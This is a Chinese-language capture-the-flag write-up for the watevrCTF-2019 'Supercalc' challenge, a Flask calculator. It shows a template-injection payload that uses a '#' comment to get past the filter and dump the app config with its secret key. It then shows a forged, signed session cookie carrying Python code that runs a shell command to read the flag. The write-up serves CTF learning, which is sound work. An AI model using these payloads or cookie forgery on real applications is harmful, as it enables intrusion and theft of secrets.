 # \[watevrCTF-2019]Supercalc

## \[watevrCTF-2019]Supercalc

## 考点

* Flask SSTI获取config
* Flask SSTI使用注释绕过，`#`绕过

## wp

输入`9*9`发现会回显

![](<../../.gitbook/assets/image (1) (1) (1) (1).png>)

返回包会设置新的cookie

![](<../../.gitbook/assets/image (24) (1) (1) (1).png>)

解密cookie

```
flask-unsign.exe --decode --cookie .eJyrVsrILC7JL6pUsoquVkrOT0lVslKyVNBSsFSq1SEoEFsLAHINEiw.Ympom w.4lGVLm2AEMchuz70376S52EDT6M
{'history': [{'code': '9 * 9'}, {'code': '9 * 9'}, {'code': '9 * 9'}]}
```

直接输入`{{7*7}}`或者`{%print(1)%}`会提示字符错误

计算器的功能那就输入`1/0`主动构造错误输入

![](<../../.gitbook/assets/image (22) (1) (1) (1) (1).png>)

发现它是把输入直接当代码处理的，这里可以fuzz一下看看哪些字符串没过滤

输入`1/0#{{7*7}}`可以看到回显的结果

![](<../../.gitbook/assets/image (8) (1) (1).png>)

输入输入`1/0#{{config}}`获取config

```
Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cded826a1e89925035cc05f0907855f7', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}
```

题目把cookie中的code执行了，修改为Python代码

```
flask-unsign.exe --secret "cded826a1e89925035cc05f0907855f7" --sign --cookie "{'history': [{'code': '__import__(\"os\").popen(\"cat flag.txt\").read()'}]}"
```

结果`eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwiY2F0IGZsYWcudHh0XCIpLnJlYWQoKSJ9XX0.YmpyRw.x1LGNmBA3XHPATpHZDhGadZOoNA`

![](<../../.gitbook/assets/image (34) (1) (1).png>)
